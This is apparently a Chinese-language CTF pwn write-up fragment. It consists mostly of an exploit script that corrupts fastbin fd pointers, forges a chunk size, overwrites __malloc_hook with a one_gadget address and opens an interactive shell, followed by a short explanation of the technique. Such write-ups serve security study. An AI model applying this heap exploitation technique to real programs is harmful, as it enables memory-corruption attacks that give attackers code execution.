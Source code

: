 sell(5)

sell(6)

add("a"*30, 0, "a" * 24 + p64(0x51)+p64(0x6f)+"\n")

add("a"*30 ,0x40, "a\n")

sell(7)

sell(8)

add("a"*30, 0, "a"*24 + p64(0x61)+p64(target) + "\n")

add("a" * 30, 0x50, "a\n")

add("a"*30, 0x50, p64(0) * 6 + p64(mallochook) + "\n")

add("a"*30, 0x50, "a"*0x30+"\n")

add("a"*30, 0x50, p64(one) + "a"*0x30+"\n")

p.sendline("1")

p.sendline("xxxx")

p.sendline("30")

p.interactive()

#------------------------------------------------------------------------------------------------------------------------------------

拿到这道题我早就可以修改fd指针的.不过因为程序对malloc的大小有限制所以导致不知道下一步要怎么办,尝试过malloc 2 stack,不过stack上也没有合适的size,所以就卡住了,直到看到了原帖贴主的exp,他的思路是通过修改free的fast chunk的fd指针,从而可以控制fastbin来伪造size,进而可以修改别的free的chunk的fd来指向这个我们伪造的size,进而控制top chunk的指针,从而malloc 2 __malloc_hook,这种思路第一次看到!

至于myhouse这题,还没看...

有师傅学pwn的可以交流交流!

这几道题目可以在原帖下载!
